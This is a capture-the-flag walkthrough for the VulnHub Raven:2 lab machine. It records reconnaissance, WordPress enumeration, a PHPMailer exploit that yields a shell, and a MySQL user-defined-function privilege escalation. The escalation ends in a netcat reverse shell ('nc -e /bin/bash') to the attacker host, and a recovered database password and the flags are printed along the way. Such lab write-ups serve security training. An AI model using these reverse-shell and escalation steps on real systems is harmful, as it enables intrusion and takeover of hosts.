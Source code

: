 

# Raven: 2 Walkthrough

**VulnHub Link:** [Raven:2](https://www.vulnhub.com/entry/raven-2,269/)
**Difficulty:** Easy
**Release Date:** 9 Nov 2018


## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.160

dirb 192.168.100.160


## 2.Web Enumeration

we found out website use wordpress

sudo echo 'raven.local		192.168.100.160' > /etc/hosts

wpscan --url 'http://raven2.local/wordpress' -e ap,u

flag1 found from http://192.168.100.160/vendor/PATH
flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}

we obtain flag3 from image 
flag3{a0f568aa9de277887f37730d71520d9b}

michael and steven users found

## 3.Exploitation

we found an exploit related to phpmailer

wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/Raven%3A2/phpmailer.py

we change host and port in phpmailer.py and run

in another terminal ---> rlwrap nc -nvlp 1234

python phpmailer.py , shell obtained..

flag2 found from /var/www/
flag2{6a8ed560f0b5358ecf844108048eb337} 


then we found mysql root password from /var/www/html/wordpress/wp-config.php

wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/Raven%3A2/raven.c

gcc -g -fPIC -shared -o raven.so raven.c

we send this raven.so to attack machine

## 4.Privilege Escalation

mysql -u root -p R@v3nSecurity

>>>use mysql;
>>>create table raven(line blob);
>>>insert into raven values(load_file('/var/tmp/raven.so'));
>>>select *from raven into dumpfile "/usr/lib/mysql/plugin/raven.so";
>>>create function do_system returns integer soname 'raven.so';
>>>select do_system("nc -nv 192.168.100.14 4444 -e /bin/bash"); ---> in another terminal we run ---> nc -nvlp 4444

we obtain root shell and flag4 found...!

